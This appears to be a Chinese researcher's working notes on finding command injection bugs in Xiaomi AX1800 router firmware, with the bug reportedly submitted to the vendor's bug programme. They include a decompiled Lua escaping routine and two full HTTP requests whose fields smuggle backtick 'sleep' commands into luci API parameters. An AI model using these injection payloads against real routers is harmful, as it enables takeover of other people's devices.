

2025年2月21日

配环境。。。真服了，路由器背后写的 192.168.10.1 结果是 192.168.31.1 。。。



---

目前来看，AX3600被打烂了，AX9000也被抢先挖了很多，看看AX1800有没有洞。


感觉应该有，得实际确认。


_cmdformat:

```lua
function L1(A0)
  local isNil
  isNil = isStrNil(A0)
  
  if isNil then
    return ""
  else
    A0 = A0:gsub("\\", "\\\\")
    A0 = A0:gsub("`", "\\`")
    A0 = A0:gsub("\"", "\\\"")
    A0 = A0:gsub("%$", "\\$")
    return A0
  end
end

_cmdformat = L1
```


可能的点：

xqnetwork.lua中有


2025年2月21日 20点54分

woc，这个地方有！！！还是那个 TunnelRequest！ woc！！！

```
POST /cgi-bin/luci/;stok=bbc0aff38163adc81f0b50c7d03e26f5/api/xqdatacenter/request HTTP/1.1
Host: 192.168.31.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.31.1/cgi-bin/luci/;stok=bbc0aff38163adc81f0b50c7d03e26f5/web/setting/upgrade
Cookie: __guid=86847064.2712971008854404600.1735352234182.2537; psp=admin|||2|||0; monitor_count=55
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

payload=`sleep%205`
```

就是不知道是否重复了。。。不知道之前有没有人交过。

交个src看看。

21点29分，交了。 希望能收吧~


# xqnetwork

## set_wifi_txpwr（？）

这种会有时延，但dnslog没打通？？？

```
POST /cgi-bin/luci/;stok=88da59b8d4a8d362d48bc5c38a77aded/api/xqnetwork/set_wifi_txpwr HTTP/1.1
Host: 192.168.31.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.31.1/cgi-bin/luci/web
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: __guid=86847064.2712971008854404600.1735352234182.2537; monitor_count=29; psp=admin|||2|||0
Upgrade-Insecure-Requests: 1
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

txpwr=%0a`sleep%201`
```


# 再看cmdformat类型过滤

发现没有过滤单引号！！！ 而很多地方命令的拼接，参数处都是用的单引号包裹！！！ 所以也许可以单引号闭合逃逸？

但只逃逸单引号也执行不了。🤔
